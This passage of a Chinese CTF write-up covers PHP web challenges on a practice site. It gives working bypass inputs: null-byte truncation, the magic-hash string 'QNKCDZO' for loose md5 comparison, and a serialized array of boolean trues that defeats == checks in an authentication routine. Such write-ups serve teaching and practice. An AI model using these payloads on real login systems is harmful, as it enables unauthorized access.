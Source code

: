 ```php
		echo '<p>Invalid password</p>';
	}
}
?>
```



- 要求大小写字母和数字 –> 前面字母后面用`%00`截断
- 大于9999999 –> 1e8
- 包含`*-*`

于是地址栏提交，得到flag

```
http://ctf5.shiyanbar.com/web/more.php?password=1e8%00*-*
```



## 天网管理系统

> 天网你敢来挑战嘛
> 解题链接：<http://ctf5.shiyanbar.com/10/web1/>

查看源代码发现

```php+HTML
<!-- $test=$_GET['username']; $test=md5($test); if($test=='0') -->
```



对提交的username加密，加密后和0做比较，于是提交`QNKCDZO`，该字符串加密后为`0e830400451993494058024219903391`与0做`==`比较会返回相等，页面出现`/user.php?fame=hjkleffifer`放入地址栏访问，得

```php
$unserialize_str = $_POST['password'];
$data_unserialize = unserialize($unserialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
   print_r($flag);
}
伟大的科学家php方言道：成也布尔，败也布尔。
回去吧骚年
```

根据页面里的提示，很快想到让`$data_unserialize['user']`的值为`true`，与字符串比较还是为真，于是本地构造下序列化后的字符串为

```
a:2:{s:4:"user";b:1;s:4:"pass";b:1;}
```



最后提交用户名为该序列化字符串，密码为`QNKCDZO`，得到flag

## 貌似有点难

> 不多说，去看题目吧。
> 解题链接： <http://ctf5.shiyanbar.com/phpaudit/>
